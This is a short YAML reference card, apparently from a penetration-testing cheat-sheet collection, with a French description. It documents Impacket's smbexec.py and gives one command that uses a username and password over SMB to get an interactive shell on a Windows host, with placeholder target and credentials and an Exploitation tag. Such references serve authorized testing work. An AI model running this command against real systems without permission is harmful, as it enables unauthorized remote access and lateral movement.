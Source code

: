```yaml
---
description: |
  Impacket's smbexec.py. Cela vous donnera un shell interactif sur l'hôte Windows.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Password: password123
command: |
  python3 smbexec.py test.local/john:password123@10.10.10.1
items:
  - Password
  - Username
services:
  - SMB
OS:
  - Linux
  - Windows
  - Approved-tool
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py
  - https://www.varonis.com/blog/insider-danger-stealthy-password-hacking-with-smbexec/
---
```

